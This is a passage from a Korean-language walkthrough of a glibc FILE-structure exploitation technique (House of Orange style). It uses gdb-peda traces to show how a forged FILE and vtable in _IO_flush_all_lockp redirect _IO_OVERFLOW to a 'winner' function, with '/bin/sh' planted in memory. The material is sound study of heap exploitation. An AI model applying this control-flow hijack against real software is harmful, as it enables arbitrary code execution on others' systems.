 fp를 free chunk로 바꾸기 위해 smallbin[4]위치에 free chunk를 넣어주어야 하는 것

```c
=> 0x7ffff7a89165 <_IO_flush_all_lockp+325>:	mov    eax,DWORD PTR [rbx+0xc0]
   0x7ffff7a8916b <_IO_flush_all_lockp+331>:	test   eax,eax
   
gdb-peda$ x/gx $rbx+0xc0
0x6024c0:	0x0000000000000001
```

fp -> _mode > 0 

```c
=> 0x7ffff7a89173 <_IO_flush_all_lockp+339>:	mov    rax,QWORD PTR [rbx+0xa0]
   0x7ffff7a8917a <_IO_flush_all_lockp+346>:	mov    rcx,QWORD PTR [rax+0x18]
   0x7ffff7a8917e <_IO_flush_all_lockp+350>:	cmp    QWORD PTR [rax+0x20],rcx
   
gdb-peda$ x/gx $rbx+0xa0
0x6024a0:	0x0000000000602490
 gdb-peda$ x/gx 0x602490+0x18
0x6024a8:	0x0000000000000002
gdb-peda$ x/gx 0x602490+0x20
0x6024b0:	0x0000000000000003
```

fp -> _IO_write_ptr **>** fp -> _IO_write_base 

```c
=> 0x7ffff7a89184 <_IO_flush_all_lockp+356>:	mov    rax,QWORD PTR [rbx+0xd8]
   0x7ffff7a8918b <_IO_flush_all_lockp+363>:	mov    esi,0xffffffff
   0x7ffff7a89190 <_IO_flush_all_lockp+368>:	mov    rdi,rbx
   0x7ffff7a89193 <_IO_flush_all_lockp+371>:	call   QWORD PTR [rax+0x18]
   
gdb-peda$ x/gx $rbx+0xd8
0x6024d8:	0x0000000000602460
gdb-peda$ x/gx 0x602460 + 0x18
0x602478:	0x00000000004006e5
gdb-peda$ x/gx 0x00000000004006e5
0x4006e5 <winner>:	0x10ec8348e5894855
```

_IO_FILE_plus의 vtable 에서 _IO_OVERFLOW 함수를 호출하는 부분인데 트리거 해놓은 대로 winner를 call하는 걸 알 수 있다.

이렇게 call하게 되면 에러메세지와 함께 winner 함수가 호출된다.

```c
gdb-peda$ x/32gx 0x602400
0x602400:	0x0068732f6e69622f	0x0000000000000061
0x602410:	0x00007ffff7dd1bc8	0x00007ffff7dd1bc8
0x602420:	0x0000000000000000	0x0000000000000000
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x00000000004006e5
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000602490	0x0000000000000002
0x6024b0:	0x0000000000000003	0x0000000000000000
0x6024c0:	0x0000000000000001	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460
```
